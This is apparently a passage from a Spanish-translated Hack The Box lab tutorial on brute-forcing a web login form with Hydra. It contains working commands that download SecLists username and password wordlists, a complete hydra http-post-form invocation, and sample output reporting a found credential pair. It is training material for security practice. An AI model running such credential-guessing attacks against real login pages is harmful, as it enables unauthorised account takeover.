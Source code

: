 Estaremos usando[Top-UserNames ShortList.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)para la lista de nombre de usuario, y[2023-200_most_used_passwords.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)Para la lista de contraseñas.

Este`params`La cadena se incorpora al comando HYDRA de la siguiente manera. Hydra sustituirá sistemáticamente`^USER^`y`^PASS^`con valores de sus listas de palabras, enviando solicitudes de publicación al objetivo y analizar las respuestas para la condición de falla especificada. Si un intento de inicio de sesión no desencadena el mensaje de "credenciales no válidas", Hydra lo marcará como un éxito potencial, revelando las credenciales válidas.

  Formularios de inicio de sesión

```shell-session
# Download wordlists if needed
xnoxos@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
xnoxos@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
xnoxos@htb[/htb]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 12:51:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:F=Invalid credentials
[5000][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 12:51:28
```

Recuerda que elaborar lo correcto`params`La cuerda es crucial para un ataque de Hydra exitoso. La información precisa sobre la estructura y el comportamiento de la forma es esencial para construir esta cadena de manera efectiva. Una vez que Hydra haya completado el ataque, inicie sesión en el sitio web utilizando las credenciales encontradas y recupere la bandera.